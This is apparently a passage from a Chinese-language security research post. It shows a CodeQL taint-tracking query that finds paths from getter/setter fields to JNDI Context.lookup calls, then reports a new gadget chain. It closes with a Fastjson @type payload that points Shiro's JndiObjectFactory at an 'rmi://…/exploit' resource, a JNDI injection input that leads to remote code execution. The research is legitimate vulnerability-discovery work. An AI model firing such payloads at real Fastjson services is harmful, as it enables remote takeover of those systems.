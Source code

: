 完整代码如下：

    /**
    @kind path-problem
    */
    import java
    import semmle.code.java.dataflow.FlowSources
    import semmle.code.java.dataflow.TaintTracking2
    import DataFlow2::PathGraph
    
    class JNDIMethod extends Method{
    JNDIMethod(){
    this.getDeclaringType().getAnAncestor().hasQualifiedName("javax.naming", "Context")
    and this.hasName("lookup")
    }
    }
    
    class TaintTrackingConfiguration extends TaintTracking2::Configuration{
    TaintTrackingConfiguration(){
    this = "TaintTrackingConfiguration"
    }
    override predicate isSource(DataFlow::Node source) {
    exists(FieldAccess fac |
    (fac.getSite().getName().indexOf("get")=0 or fac.getSite().getName().indexOf("set")=0) and source.asExpr() = fac
    )
    }
    
    override predicate isSink(DataFlow::Node sink){
    exists(MethodAccess call | 
    call.getMethod() instanceof JNDIMethod and sink.asExpr() = call.getArgument(0)
    )
    }
    }
    
    from  TaintTrackingConfiguration config, DataFlow2::PathNode source, DataFlow2::PathNode sink
    where config.hasFlowPath(source, sink)
    select source.getNode(), source, sink, sink.getNode()


发现新的执行链

![](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/codeql_photo/12.png)


    String input = "{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\", \"resourceName\":\"rmi://127.0.0.1/exploit\"}";
    Object obj = JSON.parseObject(input);
